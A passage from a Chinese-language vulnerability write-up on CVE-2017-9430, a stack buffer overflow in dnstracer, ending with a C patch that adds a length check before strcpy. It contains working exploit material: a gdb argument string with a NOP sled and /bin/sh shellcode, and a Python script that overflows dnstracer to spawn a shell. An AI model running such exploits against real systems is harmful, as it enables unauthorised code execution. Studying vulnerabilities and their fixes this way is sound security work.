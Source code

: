 ![cve-2017-9430-32.png](https://i.loli.net/2020/08/11/BWZudzwTpa3A9DH.png)

![cve-2017-9430-33.png](https://i.loli.net/2020/08/11/8qzKal5GSCVsRjn.png)

但是程序发生了错误，通过设置断点发现错误发生在0xbfffef23，而shellcode位于0xbfffef13，两者相差16个字节：

所以这里采用的解决办法是去掉前面的16个nop，将其加到 shellcode 后面。

![cve-2017-9430-34.png](https://i.loli.net/2020/08/11/tNiJrLYyeQP4Ugv.png)
```bash
set args \$(python -c 'print
"\\x90"\*1000+"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"+"\\x90"\*16+"\\x1b\\xeb\\xff\\xbf"')
```
重新执行一遍：

![cve-2017-9430-35.png](https://i.loli.net/2020/08/11/sUzTRyqeboE9mXC.png)

成功获得shell：

![cve-2017-9430-36.png](https://i.loli.net/2020/08/11/YM16Hh3kuyI8tDW.png)

所以可以编写shellcode：
```python
import os
from subprocess import call

def exp():
   filling = "A"*1041
   jmp_esp = "\\x55\\x2a\\xe2\\xb7" //自己更改esp的地址
   shellcode =
"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
   payload = filling + jmp_esp + shellcode
   call(["dnstracer", payload])

if __name__ == '__main__':
   try:
       exp()
   except Exception as e:
       print "Something went wrong"
```
再次验证即可。

## 4 漏洞修复

要修补这个漏洞的话，只需要在strcpy()函数前加上对参数长度的检查就可以了：
```c
   /*CVE-2017-9430 Fix*/  
   if(strlen(argv[0]) \>= NS_MAXDNAME)  
  {  
       free(server_ip);  
       free(server_name);  
       fprintf(stderr, "dnstracer: argument is too long %s\\n", argv[0]);  
       return 1;  
  }  

   // check for a trailing dot  
   strcpy(argv0, argv[0]);
```
